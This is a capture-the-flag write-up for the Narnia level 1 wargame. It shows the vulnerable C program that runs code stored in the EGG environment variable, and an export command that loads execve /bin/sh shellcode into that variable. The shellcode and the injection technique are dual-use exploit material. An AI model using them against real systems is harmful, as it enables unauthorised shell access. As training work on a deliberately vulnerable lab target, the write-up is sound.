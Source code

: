# narnia1

## Source Code
```c
#include <stdio.h>
int main(){
    int (*ret)();  

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
}        

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```


## Objective
Spawn a shell via the EGG enviornment variable

## Solution
I set EGG to some shellcode I grabbed from shell-storm.org:

```bash
export EGG=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
